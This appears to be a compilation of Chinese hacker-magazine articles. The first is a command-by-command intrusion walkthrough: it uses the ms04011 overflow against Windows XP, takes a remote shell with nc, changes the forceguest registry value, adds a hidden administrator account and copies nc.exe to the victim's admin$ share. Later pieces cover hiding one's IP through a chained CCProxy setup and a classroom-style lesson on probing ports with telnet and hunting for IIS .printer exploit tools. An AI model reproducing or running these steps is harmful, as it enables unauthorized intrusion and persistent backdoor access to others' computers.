通过监视注册表发现关键变化在：`HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa` 下的 `forceguest` 值由 `1` 变为 `0`。

前提是先得到足够权限的 shell。本文示例使用 ms04011 溢出，在 Win2000 对 XP 进行测试。

```txt
D:\>net use \\xpdonaroo\ipc$ 123 /u:test
命令成功完成。

D:\>net use z: \\xpdonaroo\admin$
密码在 \\xpdonaroo\admin$ 无效。
系统发生 5 错误。
拒绝访问。
```

默认情况下对 XP 建立 ipc$ 连接很难成功，下面溢出。

```txt
D:\>ms04011 1 192.168.8.222 1122
shellcode size 404
Ret value = 1720
```

再开一个 shell，拿出军刀 nc.exe。

```txt
D:\>nc 192.168.8.222 1122
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\WINDOWS\system32>
```

溢出成功，然后修改注册表，也可以用命令实现。

```txt
C:\WINDOWS>
C:\WINDOWS>echo Windows Registry Editor Version 5.00>ipc1.reg
C:\WINDOWS>echo [HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa]>>ipc1.reg
C:\WINDOWS>echo "forceguest"=dword:00000000>>ipc1.reg
C:\WINDOWS>regedit.exe /S ipc1.reg
```

这里建立了一个 reg 文件 ipc1.reg，然后用 `regedit.exe /S ipc1.reg` 导入注册表。

```txt
C:\WINDOWS>net user hahaha 123 /add
命令成功完成。

C:\WINDOWS>net localgroup administrators hahaha /add
命令成功完成。
```

最后来检验一下我们修改注册表后的成效。

```txt
C:\WINDOWS>c
D:\>net use \\xpdonaroo\ipc$ 123 /u:hahaha
命令成功完成。

D:\>net use z: \\xpdonaroo\admin$
命令成功完成。

D:\>z:
Z:\>copy d:\nc.exe z:
已复制 1 个文件。

Z:\>dir nc.exe
... 28,160 nc.exe
```

成功了，完全使用命令。这个思路可以用于建立隐藏管理用户等场景。

> （本篇文章中所涉及到的软件 Resplendent Registrar 已收录于光盘中）

```txt
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\WINDOWS\system32>cd
cd..
```

## 用二重代理
# 小鸡快跑



图 1



图 2



图 3

前段时间上课都能用 HTTP 代理上 QQ，可是我把方法在上期告诉大家后 QQ 再也上不了了。于是我测试其他方法，下载并安装了 CCPROXY。CCPROXY 是一个体积小巧、操作简便、运行速度较快的代理服务器软件，运行后如图 1 所示。

我们点击“设置”按钮后再点击“高级”，并选择“二级代理”选项，这样就会出现图 2 的窗口。

在代理服务器地址中填写可用主机的 IP，因为使用的是 HTTP 代理协议，所以代理协议选“HTTP”，最后端口填“80”并确定。OK！我们打开 QQ 试试。

设置中选择 SOCKS5 代理，IP 地址填 127.0.0.1，端口填默认的 1080，点击测试，结果显示代理服务器工作正常（如图 3）。

二级代理不仅可以用来突破 QQ 限制，还可以在某些场景隐藏自己的 IP。建议大家合理使用，不要用于不当用途。

> （文中涉及到的程序 ccproxy 已收录于光盘中）

## QQ 视频聊天“蹬门”

普通 QQ 用户经常遇到视频连接不成功的情况，尤其是双方都处于局域网内时更明显。这个问题和设置关系很大，如果能改用 UDP 方式登录，视频连接通常更容易建立。

- 1. **UDP 登录方式的修改**：在 QQ 中进入“系统设置/登录设置”，将默认的 TCP 方式改为 UDP 方式。
- 2. **检查网络模式**：在“个人设置/网络安全”中确认模式为合适选项（如通过防火墙模式）。
- 3. **重新登录测试**：退出 QQ 并重新登录，再尝试与好友视频聊天。



图 1



图 2

## 详解入侵经典模式图之四——攻击网络服务端口
### 目标：ww0830

“大家上堂课回家后，对扫描工具掌握得怎么样了？”老师一进教室就问道。

“还行，superscan、nmap 和 X-Scan 都很好用的。”学生 A 说道，“但有时它们报出的结果不一样，甚至同一个软件对同一台机器进行扫描，偶尔前后两次也会有点偏差。”

老师笑道：“那当然，一是各种工具的编程实现各不相同，有的着重点在速度，有的着重点在精度，结果就会有点差别；二是网络本来就是个非绝对稳定的环境，大家不能期望网络传输数据像计算那样绝对精确，比如对方端口的回应值在网络上出现延时，或者出现丢失，那么就会造成扫描的不准确。”

老师继续说道：“不要说大家使用的免费工具了。就是商业的软件，像微软的、绿盟的、SSS 的、FoundStone 的，扫描器几十万大洋一台，也不敢说是百分之百的精确！”

“啊！几十万啊……”大家嘴都张大了。

“当然，那几十万不仅仅是端口扫描了，还有很多其他的功能。”老师总结，“所以多用几种工具，综合起来效果更好。”大家点点头。

“老师啊，”学生 C 发问道，“扫描端口除了知道主机在线外，还有其他的作用吗？”

“当然！扫描端口之后，我们可以进行大家最感兴趣的——攻击网络服务，从而攻破对方的机器，获得控制权！”老师说道。

“哎？攻击机器？”大家口水都流出来了。

“大家再看这个入侵经典模式图，”老师打出图来，说道，“经过‘扫描’和‘得到端口’两个模块后，就可以进入‘攻击网络服务’模块了，从而‘获取访问权’和‘获取控制权’。”

老师的手沿着图上“攻击网络服务”连接的线指下去，如图 1。

### 一、攻击端口服务的原理

“上节课我们说过，如果把计算机看成银行的金库，那么端口就相当于这座金库的门。”

“银行人员通过门进入金库，进行金币啊银币啊的运送；而计算机是通过端口，来和外部网络进行数据传输。我们也说过，一台拥有 IP 地址的主机可以提供许多服务，而任何服务都要打开端口。就如同金库必须有入口和出口，才有存在的价值。”

“那大家想想，就以金库和门为例，有些什么办法可以进入金库呢？提醒大家，先不考虑有保安的情况，就像网络中暂时不考虑防火墙一样。”

“嗯……”在沉默一会儿后，学生 A 说道，“没有保安……如果金库上的门不牢固，或有缝隙，我们可以强行破门进入！”

“很好！”老师高兴地说道，“在网络中类似，如果对方主机开放的服务有漏洞，比如有缓冲区溢出漏洞，那我们就可以利用漏洞攻破主机，从而进入主机内部。大家再想想，还有其他的办法吗？”

“如果有可能，我们也可以悄悄地配一把金库门的钥匙和偷到门的密码……”C 说道。

“哈哈，对啊！”同学们都赞同道。

“是的，”老师忙说道，“在网络中就像‘远程口令猜解’和‘嗅探’一样，得到对方的用户名和密码。还有方法吗？”

“嗯……如果金库上的门没关，或者已经被其他人打开了个门，那我们可以直接跟着进去啦。”B 抢先说道。

“哈哈，那真的是得来全不费功夫啊！！”老师笑道，“是的，现实的网络中，也的确有！比如一些木马或蠕虫留下的后门端口，我们直接利用就可以了。”

“哦，如果都不行，我们强行地打个门吧！”学生 A 又很暴力了。

“哇！那可不是‘豆腐渣’工程的金库啊，你强行打个门，保安、警察都来了，呵呵。”老师说道，“但还是可以，但要有内应才行——比如木马。”

“躲在进出的运钞车里！”C 又想到。

“很好，如同隧道技术。”

“实在不行，炸掉它，大家都别用！”D 火爆地说道。

“对！这就是图中的 DoS——拒绝服务攻击。”老师指了指图中“攻击网络服务”左边的“DoS 攻击”模块。

“开个挖土机，把金库直接挖掉！”



图 1

### 二、攻击端口服务的一般步骤

“还不如直接用钻土机，钻个地道！”

“……”

“够了，够了，”老师见大家的思路打得太开了，忙说道，“咳，大家提的思路都很好，我们会在以后的课程中逐渐提到。这里先来看攻击网络端口服务的一般方法吧。”

- 1. 探测端口和服务

“我们先探测对方的主机开了什么端口，可以使用 nmap 等工具。”老师说道，“但也可以利用 Windows 自带的 telnet.exe 程序。”

> 小知识：Telnet 服务软件是我们最常用的远程登录服务器软件，是一种典型的客户机/服务器模型的服务。它应用 Telnet 协议来工作。Win2000 为我们提供了 Telnet 客户机和服务器程序。Telnet.exe 是客户机程序（Client）；tlntsvr.exe 是服务器程序（Server）；同时它还为我们提供了 Telnet 服务器管理程序 tlntadmn.exe。

“哦？telnet？如何使用呢？”大家感兴趣地说道。

“嗯，我们先点击开始→运行，输入 cmd，然后点确定，如图 2。”



“这样进入了 DOS 控制台窗口。我们先看看本机的 IP，输入 ipconfig，显示出本机的 IP 是 192.168.1.166，如图 3。”



“哦！”台下仔细地看着。

“我们探测探测旁边的机器吧，选择 192.168.1.167 机器的 80 端口，看它是否开放。”老师继续说道，“输入 telnet 192.168.1.167 80，如图 4。”



“屏幕先是一黑，我们狂敲几个回车，就可以发现出现了对方机器的回应信息，大家看图 5。”



“哎哟，乱七八糟的，是什么意思啊？”学生 A 问道。

“其实是一个网页信息，400 表示请求错误；Server 是 Microsoft-IIS/5.0；内容类型是 text/html；内容长度是 87；网页的内容是 ‘The parameter is incorrect’。其意思是‘参数不对’。”老师解释道，“如果我们 telnet 上去，盲打输入 `GET / HTTP/1.0`，参数正确，就可以得到对方的主页代码。”

“哦！”大家恍然大悟。

“好了，可以 telnet 上对方的 80 端口，这就说明 192.168.1.167 的机器开放了 80 端口。这种方法虽然很慢，而且不方便，但在没有工具或只探测少量端口的情况下，还是可以顶一顶的。”

- 2. 查找服务的漏洞信息和利用工具

老师继续说道：“对方还告诉我们是 Microsoft-IIS/5.0 的服务器，所以我们去查看 IIS 服务器有什么漏洞。”

“哦，就相当于去检查有没有不结实的金库门啊！”学生 B 说道。

“呵呵，就是这样的。利用强大的搜索引擎 google.com 吧。我们打开 IE，输入 www.google.com，在搜索项中输入‘IIS 缓冲区溢出漏洞’，如图 6。”



“我们点击搜索，结果出来了，大家看，如图 7。”



“哈哈，有好多漏洞啊！”大家兴奋地说道。

“是的，可以看到，IIS5.0 存在 printer 溢出漏洞。那接下来，我们就去搜索 `.printer` 漏洞的利用工具。”老师说道，“再次在 google 中输入‘IIS printer 工具’，这次结果如下。”如图 8。

